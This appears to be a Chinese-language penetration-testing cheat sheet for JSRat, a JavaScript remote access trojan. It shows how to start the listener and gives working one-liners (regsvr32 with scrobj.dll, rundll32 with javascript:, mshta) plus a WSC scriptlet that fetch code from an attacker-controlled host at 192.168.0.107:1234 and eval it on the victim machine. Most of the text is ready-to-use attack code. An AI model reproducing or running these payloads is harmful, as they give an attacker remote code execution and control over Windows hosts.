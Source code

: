 	https://github.com/Hood3dRob1n/JSRat-Py
	https://github.com/Ridter/MyJSRat
	启动
	>python JSRat.py -i 192.168.0.107 -p 1234
	MyJSRat可以-c参数指定执行的命令
![image](img/247.png)

	/connect是回连地址，/wtf是执行代码
![image](img/248.png)

	直接在靶机执行
![image](img/249.png)

	或
	>regsvr32.exe /u /n /s /i:http://192.168.0.107:1234/file.sct scrobj.dll
	JSRat显示上线
![image](img/250.png)
![image](img/251.png)

	Wsc方式
```xml
<?xml version="1.0"?>
<package>
<component id="testCalc">
<script language="JScript">
<![CDATA[
        rat="rundll32.exe javascript:\"\\..\\mshtml,RunHTMLApplication \";document.write();h=new%20ActiveXObject(\"WinHttp.WinHttpRequest.5.1\");w=new%20ActiveXObject(\"WScript.Shell\");try{v=w.RegRead(\"HKCU\\\\Software\\\\Microsoft\\\\Windows\\\\CurrentVersion\\\\Internet%20Settings\\\\ProxyServer\");q=v.split(\"=\")[1].split(\";\")[0];h.SetProxy(2,q);}catch(e){}h.Open(\"GET\",\"http://192.168.0.107:1234/connect\",false);try{h.Send();B=h.ResponseText;eval(B);}catch(e){new%20ActiveXObject(\"WScript.Shell\").Run(\"cmd /c taskkill /f /im rundll32.exe\",0,true);}";
        new ActiveXObject("WScript.Shell").Run(rat,0,true);
]]>
</script>
</component>
</package>

```
	>rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();GetObject("script:http://192.168.0.107/jsrat.wsc")
	Mshta方式
	>mshta javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.0.107:1234/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im mshta.exe",0,true);}
